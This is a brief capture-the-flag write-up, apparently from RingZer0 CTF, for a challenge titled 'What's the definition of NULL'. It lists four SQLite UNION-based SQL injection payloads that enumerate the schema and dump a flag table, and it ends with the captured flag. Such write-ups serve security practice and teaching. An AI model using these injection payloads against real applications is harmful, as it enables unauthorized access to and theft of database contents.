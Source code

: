 <h1>What's the definition of NULL</h1>
<h3>Description</h3>
<p>http://challenges.ringzer0ctf.com:10040/</p>
<h3>Solution</h3>

<p>Payload SQLite Union Attack</p>
<pre>
1. -1) UNION ALL SELECT 1,2,3-- output = 1
2. -1) UNION ALL SELECT name,null,null FROM sqlite_master WHERE type='table'-- output = flag
3. -1) UNION ALL SELECT name,type,null FROM pragma_table_info('flag')-- output content
4. -1) UNION ALL SELECT group_concat(COALESCE(content,''), '||ROW||'),null,null FROM flag-- output = FLAG-sQFYzqfxbZhAj04NyCCV8tqA
</pre>

<h3>Flag</h3>
<pre>
FLAG-sQFYzqfxbZhAj04NyCCV8tqA
</pre>
